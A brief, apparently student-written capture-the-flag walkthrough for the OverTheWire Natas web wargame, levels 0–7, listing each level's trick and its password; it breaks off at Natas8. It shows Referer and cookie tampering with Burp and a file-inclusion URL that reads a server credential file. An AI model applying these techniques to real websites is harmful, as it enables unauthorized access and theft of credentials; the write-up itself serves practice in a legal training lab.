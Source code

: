 # NATAS WRITE UP
## Natas0
View source  
**user: natas1**  
**pass: gtVrDuiDfck831PqWsLEZy5gyDz1clto**
## Natas1
Ctrl + U  
**user: natas2**  
**pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi**
## Natas2
http://natas2.natas.labs.overthewire.org/files/users.txt  
**user: natas3**  
**pass: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14**
## Natas3
http://natas3.natas.labs.overthewire.org/robots.txt  
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt  
**user: natas4**  
**pass: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**
## Natas4
Dùng Burp intercept request để sửa referer thành http://natas5.natas.labs.overthewire.org/  
**user: natas5**  
**pass: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
## Natas5
Dùng Burp intercept request để sửa cookie thành loggedin=1  
**user: natas6**  
**pass: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1**  
## Natas6
http://natas6.natas.labs.overthewire.org/includes/secret.inc  
Secret: FOEIUWGHFEEUHOFUOIU  
**user: natas7**  
**pass: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**  
## Natas7
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8  
**user: natas8**  
**pass: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**  
## Natas8

